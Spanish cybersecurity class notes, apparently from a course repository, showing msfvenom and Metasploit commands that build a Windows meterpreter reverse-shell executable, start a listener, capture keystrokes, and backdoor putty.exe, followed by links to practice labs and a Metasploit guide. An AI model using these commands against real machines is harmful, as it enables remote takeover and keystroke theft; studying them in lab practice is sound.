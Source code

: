 ```
$ msfvenom

$ /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.30 LPORT=567 -f exe -o malo.exe

$ use exploit/multi/handler

$ set payload windows/meterpreter/reverse_tcp

$ set lhost ip_server

$ set rport puerto_escucha

$ run

$ meterpreter

$ keyscan_start

$ keyscan_dump
```
Backdoors

- bajar ejecutable
- comprobar md5 tanto por la página como por linux terminal.

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.30 LPORT=567 -x putty.exe -f exe -o evilputty.exe 
```

Video interesante: [deloite](https://www.youtube.com/watch?v=7UPe_fxOz8M).

Página muy interesante: [hackthebox](https://www.hackthebox.eu/).

Colección de sitios para realizar pruebas de vulnerabilidades: [CTFSITES](https://ctfsites.github.io/).

Máquinas virtuales para realizar testeos de ciberseguridad: [Vulnhub](https://www.vulnhub.com/).

Recopilatorio de aplicaciones y sistemas vulnerables para practicar: [hackplayers](https://www.hackplayers.com/2015/07/recopilatorio-de-aplicaciones-y.html).



# 17/06/2021
Libro guia de como montar y utilizar metasploit: [GUIA METASPLOIT](../../libros/modulo_02/18.THE-EASIEST-METASPLOIT-GUIDE.pdf)

Video de adivinar tu vida através de las redes sociales: [link](https://www.youtube.com/watch?v=j-tFoYNHi1w).

Video del El País niños redes sociales: [link](https://www.youtube.com/watch?v=WqBl2zyXI7g).

- Romper contraseñas mediante diccionarios.
